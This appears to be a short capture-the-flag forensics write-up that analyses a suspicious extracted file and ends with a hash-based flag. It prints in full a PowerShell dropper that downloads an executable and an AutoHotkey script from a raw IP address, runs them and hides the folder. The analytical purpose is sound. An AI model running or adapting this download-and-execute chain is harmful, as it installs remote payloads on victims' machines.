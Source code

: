 ![image-20240414073447031](./assets/image-20240414073447031.png)

Download the file and extract it.

![image-20240415171338687](./assets/image-20240415171338687.png)

Take a look at the "gzewaehzw" file.

```
ni 'C:/kitty/' -Type Directory -Force;cd 'C:/kitty/';Invoke-WebRequest -Uri "http://123.124.106.221/rmvijmpqsg" -OutFile 'C:/kitty/temp_AutoHotkey.exe';[System.IO.File]::WriteAllBytes("C:/kitty/AutoHotkey.exe",([System.IO.File]::ReadAllBytes("C:/kitty/temp_AutoHotkey.exe")[1024..([System.IO.File]::ReadAllBytes("C:/kitty/temp_AutoHotkey.exe").Length-1)]));Invoke-WebRequest -Uri "http://123.124.106.221/rjlcmdey" -OutFile 'C:/kitty/script.ahk';Invoke-WebRequest -Uri "http://123.124.106.221/giibkqxo" -OutFile 'C:/kitty/test.txt'; start 'C:/kitty/AutoHotkey.exe' -a 'C:/kitty/script.ahk';attrib +h 'C:/kitty/'
```

It was a PowerShell command.

This line was an attempt to download "rmvijmpqsg" as "temp_AutoHotkey.exe", then copy and rename it to "AutoHotkey.exe".

```
Invoke-WebRequest -Uri "http://123.124.106.221/rmvijmpqsg" -OutFile 'C:/kitty/temp_AutoHotkey.exe'
```

![image-20240415175001604](./assets/image-20240415175001604.png)

![image-20240414073435393](./assets/image-20240414073435393.png)

![image-20240415174836435](./assets/image-20240415174836435.png)

```
4e5821b9c00cd8ffc054d1077705e47a49a4d2da5ba4b2eecc64f10810ebe6f3
```

```
forensics{4e5821b9c00cd8ffc054d1077705e47a49a4d2da5ba4b2eecc64f10810ebe6f3}
```

